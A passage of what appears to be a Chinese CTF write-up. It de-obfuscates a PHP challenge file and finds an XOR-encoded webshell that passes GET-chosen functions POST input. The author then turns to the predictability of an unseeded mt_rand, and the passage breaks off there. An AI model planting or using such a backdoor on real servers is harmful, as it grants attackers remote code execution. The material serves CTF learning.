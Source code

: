 看到几个被混淆了的变量的值

直接尝试复制粘贴到本地，然后 echo 一下

```plain
<?php
header("content-type:text/html;charset=utf-8");
#show_source('au2c7ts62gs1ush13.php');
$__=("`"^"?").(":"^"}").("%"^"`").("{"^"/");
$___=("$"^"{").("~"^".").("/"^"`").("-"^"~").("("^"|");
$____=("t"^":").(":"^"R").(":"^"R").("X"^":");
$x=mt_rand(2012,2022);
$y=mt_rand(1997,2024);
echo $__ . "<br />";
echo $___ . "<br />";
echo $____ . "<br />";
$_____=($x*$y);
echo $_____;
@${$__}[$____](@${$___}[$_____]);
// @$_GET[Nhhb](@$_POST[$_____]);
#flag{} into flag.php
?>
```

打印出来的结果

[![](assets/1705974553-23e42b958470ad22b4933b19b98a122d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121201411-95afefc6-b856-1.png)

所以以下代码实际上是这个样子的

```plain
@$_GET[Nhhb](@$_POST[$_____]);
```

这就是一个 Webshell，但其中 $\_\_\_\_\_ 是随机数来的

我们没办法直接确定...这时候可以再看下代码

生成随机数的函数是 mt\_rand，但没指定 mt\_srand

这时候我就在想会不会是在考核伪随机数的不安全性的利用

因为对这块了解的比较少，所以这时候我好好地去百度了下

大体上是说：
